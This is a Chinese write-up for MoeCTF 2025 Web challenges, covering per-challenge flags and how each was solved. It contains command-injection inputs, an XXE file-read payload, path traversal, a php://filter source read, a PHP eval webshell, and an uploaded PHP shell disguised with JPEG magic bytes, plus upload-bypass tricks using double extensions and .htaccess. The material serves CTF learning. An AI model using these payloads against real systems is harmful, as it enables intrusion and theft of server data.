


<!--markdownlint-disable MD033 MD041-->

<div align="center">

# 🌍 Web 安全与渗透测试 题解 🛡️

</div>

## 0 Web 入门指北

> [!NOTE]
> **FLAG:** `moectf{jv@vScr1p7_14_so0o0o0o_inT3r3&t!!!}`

题目所给出的 `moectf2025__web_signin.txt` 附件显然是经过了 [JSFuck](https://jsfuck.com/) 混淆的 JavaScript 脚本。在 F12 开发者工具的控制台中输入该脚本即可得到 `flag`。


## 01 第一章 神秘的手镯

> [!NOTE]
> **FLAG:** `moectf{f_i2_1s_Your_g00d_fri3nd!!}`

注意到启动的网页不允许使用 `Ctrl+V` 粘贴启封咒 `wan_yan_qi_feng_zhou.txt`，我们不妨直接在 F12 开发者工具的源代码中寻找出路。以下截取 `shouzhuo.js` 中的部分内容（第 20 行起）：

```javascript
// 验证密码
function validatePassword() {
    const input = document.getElementById('passwordInput').value;
    const resultDiv = document.getElementById('result');

    if (input === CORRECT_PASSWORD) {
        resultDiv.innerHTML = `
            <div class="success">
                <p>🌟 手镯迸发青光，K皇虚影浮现：</p>
                <p>"小辈不错！此物赠你——"</p>
                <!-- 恭喜你已经会阅读前端代码了！这是解题的另一条道路！以下是你的flag和小说的后半段。 -->
                <div class="flag">moectf{f_i2_1s_Your_g00d_fri3nd!!}</div>
                <p>《金曦玄轨感应篇》已注入神识</p>
```


这里即可得到 `flag` 内容。或许也可以尝试绕过或禁用禁止粘贴的 JavaScript 代码，但具体如何操作，星澜音并未进一步尝试。

## 02 第二章 初识金曦玄轨

> [!NOTE]
> **FLAG:** `moectf{0bs3rv3_Th3_Gold3n_traiL}`

根据小说描述，「破阵罗盘」可能指 Burp Suite 等抓包工具，「玄枢灵印」指 Burp Suite 生成的 CA 证书。**[信物连接] -> [法则与隐私] -> [权限管理] -> [玄枢灵印] -> [导入灵印]** 应当指在 Windows 中导入证书的过程，**[信物连接] -> [法则网络] -> [灵枢代理] -> [手动设置灵枢]** 即设置 Windows 代理的过程。

但事实上，星澜音在未开启 Burp Suite 和设置代理的情况下亦完成了此题。打开给定的网页后，根据提示访问 `localhost:13581/golden_trail`（端口号可能因人而异），同时在 F12 开发者工具中抓取该 HTTP GET 请求，在响应标头的 `X-Jinxi-Secret` 中得到了 `flag`。


## 03 第三章 问剑石！篡天改命！<!---->

> [!NOTE]
> **FLAG:** `moectf{Get-P0sT_TR4NsmISSion_I5_a_GOOD_METhoDl1l17e}`

根据小说描述，我们需要在网页发出「测试天赋」请求时，抓取该 HTTP POST 包并修改其参数和数据体内容。我们使用 Burp Suite 的 Proxy，打开 Intercept 后，在 Burp Suite 内置的 Chromium 浏览器中访问给定的网址，并进行一次「测试天赋」。

截取到一次 HTTP POST 请求如下：

```plain
POST /test_talent?level=B HTTP/1.1
Host: 127.0.0.1:13997
Content-Length: 24
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:13997
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:13997/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"manifestation":"none"}
```

`manifestation` 应为「显现、出现」之意，在这里我们理解为「显现的光芒」。修改 `POST` 的参数和 `manifestation` 的值即可。

```diff
- POST /test_talent?level=B HTTP/1.1
+ POST /test_talent?level=S HTTP/1.1

- {"manifestation":"none"}
+ {"manifestation":"flowing_azure_clouds"}
```


## 05 第五章 打上门来！<!---->

> [!NOTE]
> **FLAG:** `moectf{Al1_1NPUT-lS-MAI1Ci0U52e744a19}`

注意到打开的网页类似文件管理器，根据题目描述

> 破阵之机，在于「破界之眼」，寻得迷宫「源点」（根目录）！

故我们尝试使用 `../` 结构访问其父目录。简要尝试后显然得知，`flag` 文件位于 `../../flag` 处。


## 09 第九章 星墟禁制·天机问路

> [!NOTE]
> **FLAG:** `moectf{5a541491-288c-2dc5-48f7-f5b2b03ee805}`

在「星域真名」中输入 `stellalyrin.top`，得到：

```plain
;; communications error to 10.43.0.10#53: connection refused
;; communications error to 10.43.0.10#53: connection refused
;; communications error to 10.43.0.10#53: connection refused
;; no servers could be reached
```

注意到这是 `nslookup` 的输出，我们推测，服务器侧很有可能将用户输入直接追加在 `nslookup` 后面，然后发送给服务器作为指令。我们尝试用 `;`（分号）构造多命令以寻找 `flag` 文件。例如 `stellalyrin.top ; ls -la /`。

经过多次尝试后，始终未能成功找到 `flag` 文件，最终我们惊喜地发现，`flag` 位于环境变量中😇。构造 `stellalyrin.top ; printenv` 即可得到 `flag`。


## 10 第十章 天机符阵

> [!NOTE]
> **FLAG:** `moectf{G00d_7o6_4nD_XX3_Unl0ck_St4r_S34l}`

注意到：


即可得到 `flag`。



经过出题人证实，这是一种非预期做法，并且在「10 第十章 天机符阵_revenge」中进行了修正。下面给出使用 XXE 注入的预期做法。

在「契约内容」中输入 ` `（空格）后，观察「符阵推演结果」如下

```plain
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Start tag expected, '&lt;' not found in Entity, line: 1 in <b>/var/www/html/chapter10.php</b> on line <b>17</b><br />
<阵枢>引魂玉</阵枢>
<解析>未定义</解析>
<输出>未定义</输出>
```

观察到这是经典的 XXE（XML External Entity，XML 外部实体）注入攻击模板。「符阵推演结果」中的 `chapter10.php` 指示服务器正在使用 PHP 语言接受「契约内容」，而 `DOMDocument::loadXML()` 又表明服务器正在使用 XML 解析器来尝试解析用户的输入为 XML 文档。`'&lt;' not found in Entity` 指示服务器未找到「契约内容」中开头应当出现的 `<`，因为一个 XML 文档一般一定需要以一个标签开头，而这个标签以 `<` 开头。

后续，「符阵推演结果」又输出了 `<阵枢>`、`<解析>` 和 `<输出>` 三部分，我们认为，这是服务器侧代码正常的处理逻辑：它会尝试解析「契约内容」为 XML，并将用户输入中对应的部分用来更换输出的「符阵推演结果」。我们应构造以下「契约内容」：

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
]>

<data>
  <输出>&xxe;</输出>
</data>
```

`<!DOCTYPE data []>` 作为 DTD（Document Type Definition，文档类型定义）用以规定 XML 文档的结构和合法元素；`data` 指 XML 文档的根元素必须为 `data`，而 `[]` 内是具体的定义内容。我们在 `[]` 内定义了这样一个 entity（实体）：它的名字是 `xxe`，关键字 `SYSTEM` 告诉解析器实体的内容需要从外部资源中获取，`file:///var/www/html/flag.txt` 指定了该外部资源的具体位置，这是一个本地文件协议的 URI，地址就指向目标 `flag` 文件。通常情况下，我们并不能快速猜测 `flag` 文件的位置，这需要我们多次尝试。

`<data></data>` 中定义了具体的 XML 文档的内容，`&xxe;` 引用了一个实体的内容。而之所以我们将 `&xxe;` 放在 `<输出></输出>` 中，是因为我们需要迎合服务器的处理逻辑，这一点在上文中提到过。

输入该「契约内容」并「发动符阵」后得到 `flag`，其位于「符阵推演结果」的 `<输出></输出>` 中。


## 10 第十章 天机符阵_revenge

> [!NOTE]
> **FLAG:** `moectf{b4916167-5146-4cba-5a5e-3609f19dabc6}`

是对上一个第 10 题的「非预期」解法的修正。做法和第 10 题完全一致，只是需要注意 `flag` 文件换了个位置。🤔

## 11 第十一章 千机变·破妄之眼

> [!NOTE]
> **FLAG:** `moectf{0bc61e1e-caca-3a28-0bb6-1ca4b24e5373}`

首先根据题目提示：

> HDdss 看到了 `GET` 参数名由 `m,n,o,p,q` 这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道参数名等于参数值才能进入。

可以尝试手动尝试，但注意到可能性有 $5! = 120$ 种，手动枚举过于耗时，我们编写这样的 Python 脚本，它将枚举全部的可能性，并调起 Edge 打开对应网页，我们人工审查对应网页的情况。构造 Python 脚本如下：

```python
"""check_unique_webpage.py

该 Python 脚本供 MoeCTF 的 Web 赛道中，「11 第十一章 千机变·破妄之眼」题目使用。
由 星澜音 在 Qwen 的帮助下编写。
"""

import os
import time
import webbrowser
from itertools import permutations

# 定义字母集合
letters = ["m", "n", "o", "p", "q"]

# 生成所有可能的排列（$5! = 120$ 种）
all_permutations = ["".join(p) for p in permutations(letters)]

# 基础 URL
base_url = "http://127.0.0.1:7029/"

# 提示用户即将开始运行
print(f"🔥 准备在 3 秒后打开 {len(all_permutations)} 个浏览器标签页……")
time.sleep(3)
print("⏳ 请稍等，每 1 秒会自动打开一个新标签页……\n")

# 逐个打开请求页面
for i, param_name in enumerate(all_permutations, 1):
    # 构造带参数的 URL 并提示用户
    url = f"{base_url}?{param_name}={param_name}"
    print(f"({i}/{len(all_permutations)}) 即将打开 {param_name}")

    # 打开 Edge 标签页
    webbrowser.open(url, new=2)

    # 每 1 秒打开一个
    if i < len(all_permutations):
        time.sleep(1)

# 完成提示
print("\n✅ 全部 120 个请求已发送！")
```

运行，输出如下：

```plain
🔥 准备在 3 秒后打开 120 个浏览器标签页……
⏳ 请稍等，每 1 秒会自动打开一个新标签页……

(1/120) 即将打开 mnopq
(2/120) 即将打开 mnoqp
(3/120) 即将打开 mnpoq
(4/120) 即将打开 mnpqo
...
(120/120) 即将打开 qpomn

✅ 全部 120 个请求已发送！
```


经过尝试后，容易找到一个对应的 URL，它将我们重定向到 `/find.php` 页面。事实上，可能有更好的方法找到该 URL，但鉴于星澜音的 32G RAM 笔记本完全足以支撑 Edge 打开 120 个网页，所以暂且就先用这种土办法了。

和先前一样，这又是一个类似于文件浏览器一样的界面。注意到有 `flag.php`，我们直接点击——


<div align="center">

😡😡😡**气死我了，竟然说我境界不够**😡😡😡<br/>
😎 看招 😎

</div>

我们容易想到，`index.php` 应当使用 PHP 的伪协议（Wrapper）来读取文件内容。即使玉简内容让我们十分生气😡，但至少为我们提示：**我们现在看到的内容，远少于我们应当能看到的内容**。换句话来说，这句话应当为服务器执行（render）了 `flag.php` 后为我们展示的内容，而远非这个文件本身的内容。

那有什么办法绕过服务器的执行呢？或者说——我们的思路就是去读取 `flag.php` 的源代码。自然地，我们会想到一个万能的协议 `php://filter`！它也可以用来读取文件，不过它支持在展示文件内容前，为其内容加入一些「过滤」！例如，`convert.base64-encode` 过滤器可以将内容转换为 Base64 加密格式。这样，我们再想展示文件内容时，就不必担心它因为明文显示，而被服务器当作 PHP 源码执行了！

构造

```plain
php://filter/read=convert.base64-encode/resource=flag.php
```

即可得到

```plain
PD9waHANCmVjaG8gImZsYWflsLHlnKjov5nkuobvvIznnIvkuI3liLDlkJfvvIzmmK/ogIHlvJ/looPnlYzkuI3lpJ/lkKciOw0KLy9tb2VjdGZ7MGJjNjFlMWUtY2FjYS0zYTI4LTBiYjYtMWNhNGIyNGU1MzczfQ==
```

使用 CyberChef 解 Base64 得到

```php
<?php
echo "flag就在这了，看不到吗，是老弟境界不够吧";
//moectf{0bc61e1e-caca-3a28-0bb6-1ca4b24e5373}
```

果然是给我塞了一段 PHP 文件😡😡，好在这道题目成功解决了！ヾ(≧▽≦\*)o

## 12 第十二章 玉魄玄关·破妄

> [!NOTE]
> **FLAG:** `moectf{a83801f1-6ba9-ec7a-46be-08f8384e7f91}`

访问网页得到一段 PHP 代码：

```php
<?php
highlight_file(__FILE__);
@eval($_POST['cmd']);
```

这是一个极其危险的 WebShell 后门脚本。`@eval($_POST['cmd']);` 获取 `cmd` 参数中的值，并将其当作 PHP 代码直接执行。我们直接在 中国蚁剑 中输入对应的 IP、端口和参数名，即可进入对应服务器环境。

这里，寻找 `flag` 需要花费大量功夫。我们可能 ~~一定~~ 会使用类似 `ls -la` 或 `find` 等指令全局查找 `flag` 文件，但事实上 `flag` **又一次** 位于环境变量中，令人忍俊不禁。


## 13 第十三章 通幽关·灵纹诡影

> [!NOTE]
> **FLAG:** `moectf{e6919f9b-dcce-fa32-41c4-5874a57d34ec}`

首先我们必须熟知，题目要求中的

> 灵纹必须包含噬心魔印（十六进制校验码：FFD8FF）

中，`FF D8 FF` 恰为 `.jpg` 文件的文件头！星澜音因为不知道这个事，兜兜转转绕了半天，甚至想出诸如「内涵图」之类的方法，令人忍俊不禁。😭

之后我们尝试上传任意一张图片，根据题目提示，访问 `/uploads/filename.png` 确实可以找到对应的文件。故考虑构造以下 PHP payload：

```php
<?php
header('Content-Type: text/plain; charset=utf-8');
system('printenv');
?>
```

直接使用 `printenv` 而放弃寻找 `flag` 文件的意图，是经过对出题人的分析得到的。在将该文件保存为 `lingwen.php` 后，我们使用 [HexEd.it](https://hexed.it) 在文件前插入 3 个空白字节，并修改为 `FF D8 FF` 即可通过服务器侧校验。随后，我们访问 `/uploads/lingwen.php` 即可得到 `flag`。



## 14 第十四章 御神关·补天玉碑

> [!NOTE]
> **FLAG:** `moectf{910d5543-7322-b826-1b96-cfa05233a924}`

本题有两种思路。

### 思路 1：星澜音的方法

在 CTF Wiki 中提到过 PHP 中 [绕过文件上传检查的方法](https://ctf-wiki.org/web/php/php/#_5)，即 Apache 在解析文件时，会对文件名从右到左逐一剥离后缀，去尝试匹配「已知的 MIME 类型 / Handler / Module」。但由于 Apache 对 `.rar` 没有匹配出合适的处理方式，便会继续尝试向左剥离后缀，直到剥离出 `.php` 后，将其作为一个 PHP 代码文件处理。

故，使用第 13 题的 `lingwen.php`，改名为 `lingwen.php.rar` 上传并访问即可。


### 思路 2：出题人的引导

题目中给出：

```php
<IfModule mod_rewrite.c>  
  RewriteEngine On  
  Rew... # 残缺  
  ...魔气侵蚀... # 魔化文字  
</IfMod... # 残缺 
```

这显然是 `.htaccess` 的内容。一个 `.htaccess` 文件可以改变对某种扩展名的解释方法，在这里，我们可以在 `.htaccess` 中设置 Apache 将所有 `.txt` 以 PHP 代码的方式解析，随后将 `lingwen.php` 改名为 `lingwen.txt` 上传并访问即可。

## Moe 笑传之猜猜爆

> [!NOTE]
> **FLAG:** `moectf{a1ca9f03-7218-e4ca-0e31-67a065670470}`

在 F12 开发者工具的源代码中，于 `static` 文件夹下找到 `main.js` 文件。注意到第 1 行

```javascript
let randomNumber = Math.floor(Math.random()*10000) + 1; // 1-10000
```

即知随机数的变量名为 `randomNumber`。打开网页时，该随机数已经生成，故我们直接在控制台中输入 `randomNumber` 以得到随机数的值，再输入回原网页以得到 `flag`。


事实上，`main.js` 也指示了另外一条路（从第 24 行）：

```javascript
    // 猜对后请求flag
    fetch('/flag', {method: 'POST'})
      .then(res => res.json())
      .then(data => {
        document.querySelector('.flagResult').textContent = "FLAG: " + data.flag;
      });
    setGameOver();
```

我们可以直接向 `/flag` 发送 HTTP POST 请求以得到 `flag`。这里星澜音不再赘述。

## 摸金偶遇 FLAG，拼尽全力难战胜

> [!NOTE]
> 玩这个什么游戏导致的。<br/>
> **FLAG:** `moectf{a521d181-6bd6-9aca-d542-8d698ea5d49c}`

### 思路 1：使用 `requests` 库

使用诸如 Python 的 `requests` 库，发出 `get_challenge?count=9` 请求后，从响应中解出 `numbers` 和 `token`，然后再将其作为新请求的负载的 `answers` 和 `token`，发送 `verify` 请求并从响应中解出 `flag`。

### 思路 2：借助手速手动发出请求

在 F12 开发者工具的「源代码」选项卡中，浏览 `(索引)` 得到如下 JavaScript 代码（从第 572 行，修改了缩进）：

```javascript
fetch("/verify", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
    },
    body: JSON.stringify({
        answers: realCode,
        token: myToken
    })
})
```

我们考虑，可以在开始挑战后手动发送该 `verify` 请求，并携带正确的 `answers` 和 `token`。我们注意到，一次挑战的耗时为 3s，这足以让我们通过极限的手速手动发出请求并查看其响应。这里分享一种做法。

首先，我们将「破译电脑挑战」界面放置在屏幕的左侧，打开 F12 开发者工具，选择「停靠位置」为「停靠到单独的窗口」。在新窗口中选择「源代码」选项卡，之后「展开快速视图」并在快速视图中选择「控制台」。

紧接着，在 3s 内完成以下操作：

1. 在左侧的网页中点击「开始挑战」；
2. 在右上的「源代码」选项卡中，点击「暂停脚本执行」按钮；
3. 在右下的「控制台」选项卡中，粘贴一段 JavaScript 代码；
4. 回车并等待出现 `pending` 时，再在右上的「源代码」选项卡中，点击「继续脚本执行」；
5. 手动查看控制台中的结果。

该 JavaScript 代码如下：

```javascript
fetch("/verify", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
    },
    body: JSON.stringify({
        answers: typeof realCode !== 'undefined' ? realCode : "未定义答案变量",
        token: typeof myToken !== 'undefined' ? myToken : "未定义令牌变量"
    })
})
.then(response => {
    const contentType = response.headers.get("content-type");
    const isJson = contentType && contentType.includes("application/json");
    
    return response[isJson ? "json" : "text"]()
        .then(data => ({
            status: response.status,
            statusText: response.statusText,
            headers: Object.fromEntries(response.headers.entries()),
            body: data
        }));
})
.then(result => {
    console.groupCollapsed("%c响应结果", "color: #4CAF50; font-weight: bold");
    console.log("%c状态:", "color: #2196F3; font-weight: bold", `${result.status} ${result.statusText}`);
    console.log("%c响应头:", "color: #FF9800; font-weight: bold", result.headers);
    console.log("%c响应体:", "color: #9C27B0; font-weight: bold", result.body);
    console.groupEnd();
})
.catch(error => {
    console.groupCollapsed("%c请求错误", "color: #F44336; font-weight: bold");
    console.error("网络错误:", error);
    console.groupEnd();
});
```


> 是的，我们说：`CTF` 的全称是 `Catch Things Faster`。——unDefFtr
